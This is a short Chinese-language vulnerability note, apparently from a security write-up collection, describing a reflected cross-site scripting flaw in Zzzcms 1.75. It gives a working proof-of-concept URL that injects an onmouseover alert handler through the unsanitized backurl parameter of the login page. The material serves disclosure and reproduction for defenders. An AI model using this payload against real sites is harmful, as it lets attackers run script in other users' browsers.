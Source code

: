 ```yaml
---
title: "Zzzcms 1.75 xss漏洞"
id: zhfly3319
---
```


# Zzzcms 1.75 xss漏洞

## 一、漏洞简介

## 二、漏洞影响

Zzzcms 1.75

## 三、复现过程

```
http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d 
```

该onmouseover事件在移动到登录注册时会触发

![image](../img/2e52ed57cc575615ea79376015fa2e80.png)

对传入的backurl并没有做任何防护

![image](../img/688ced792b5205c4a41ba046f8d40967.png)